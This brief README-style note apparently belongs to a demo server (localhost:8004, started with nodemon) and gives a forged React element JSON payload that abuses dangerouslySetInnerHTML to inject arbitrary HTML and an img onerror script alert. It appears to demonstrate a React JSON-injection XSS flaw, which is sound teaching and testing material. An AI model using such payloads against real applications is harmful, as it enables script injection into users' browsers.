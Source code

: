 - start with `nodemon server.js`
- runs on localhost:8004

vulnerable to:
{
    _isReactElement: true,
    _store: {originalProps: {}},
    type: "body",
    props: {
        dangerouslySetInnerHTML: {
            __html:
                `<a href='http://danlec.com'>Arbitrary HTML</a>
                 <img src="" width="0" height="0" onerror="alert('Haxzored!')">`
        }
    }
}